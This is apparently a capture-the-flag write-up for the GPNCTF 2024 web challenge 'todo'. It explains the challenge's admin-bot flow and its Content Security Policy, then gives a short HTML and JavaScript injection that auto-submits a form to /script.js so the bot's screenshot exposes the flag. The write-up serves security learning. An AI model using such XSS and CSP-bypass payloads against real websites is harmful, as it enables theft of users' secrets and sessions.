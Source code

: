```yaml
---
layout: load_md
title: The White Circle | Gpnctf 2024 | todo Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Gpnctf 2024
parent: gpnctf_2024
category: web
challenge: todo
tags: "web, twh, xss, csp bypass"
date: 2024-06-02T00:00:00+00:00
last_update: 2024-06-02T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Gpnctf 2024</h1>


## todo
> Solved by : thewhiteh4t


- when we input html into admin form input then the following flow is executed in back-end :

```
/admin -> set flag cookie -> visit site -> fill our input in /chal input -> screenshot after delay
```

- flow in `/chal` route :

```
CSP is set -> script.js is added to head tag -> our input is added
```

- flow in `/script.js` route :

```
if the flag cookie matches -> fake flag is replaced with actual flag -> response is sent
```

- so the actual flag is stored inside `script.js`
- CSP :

```
default-src 'none'; script-src 'self' 'unsafe-inline';
```

- cannot load js url like `/script.js` in src because connect-src is not present so default-src fallback is used which is none so request is blocked
- thanks to unsafe-inline we can execute js scripts
- after looking into default-src bypass I found the following on hacktricks :


![](https://i.imgur.com/J1hLfFK.png)

- [Hacktricks CSP Bypass](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)
- so I tried to load `/script.js` in form action like this :

```html
<form action="/script.js" id="plz">
    <button type="submit"></button>
</form>
<script>document.getElementById("plz").submit();</script>
```

![](https://i.imgur.com/uQD36xS.png)


